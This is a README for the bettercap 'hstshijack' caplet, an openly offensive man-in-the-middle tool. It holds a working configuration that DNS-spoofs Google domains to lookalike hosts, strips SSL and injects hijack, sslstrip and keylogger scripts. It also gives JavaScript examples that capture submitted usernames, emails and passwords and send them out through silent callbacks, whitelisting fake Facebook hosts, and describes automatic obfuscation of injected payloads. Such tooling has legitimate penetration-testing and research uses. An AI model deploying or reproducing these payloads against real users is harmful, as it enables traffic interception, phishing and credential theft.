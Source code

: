 <p align="center">
  <img width="420px" src="https://raw.githubusercontent.com/buffermet/cdn/master/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets         *.google.com, google.com, gstatic.com, *.gstatic.com
set hstshijack.replacements    *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set hstshijack.ssl.domains     /usr/local/share/bettercap/caplets/hstshijack/domains.txt
set hstshijack.ssl.index       /usr/local/share/bettercap/caplets/hstshijack/index.json
set hstshijack.ssl.check       true
#set hstshijack.blockscripts    example.com,*.example.com
set hstshijack.obfuscate       true
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
#set hstshijack.ignore          *

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
http.proxy on

set dns.spoof.domains  *.google.corn,google.corn,gstatic.corn,*.gstatic.corn
set dns.spoof.all      true
dns.spoof on
```

### Core payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>). This payload acts as a callback for bettercap, and takes care of hostname spoofing in the injected context (and document).

### Scalable domain indexing (SSL log)

If a host responds with an HTTPS redirect, bettercap will save this host in a list, and keep a log of (alphanumerically) ordered index ranges of the domains in this list, allowing it to scale by reducing a considerable amount of overhead for the proxy module.

Bettercap will try to spoof SSL connections between the client and said hosts, and will also send a HEAD request to each host that was discovered in an injected document, which we retrieve via callbacks from the hstshijack.js payload.

By default, this caplet will remap the index ranges of all domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.check` variable value to `false`.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are assembled at launch, and wrapped inside a function which is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once on every document, even if injected multiple times. Individual payloads are not failsafe, so you must set your conditions/try and catch blocks yourself.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the hstshijack.js and sslstrip.js payloads when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_` will be obfuscated.

Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.

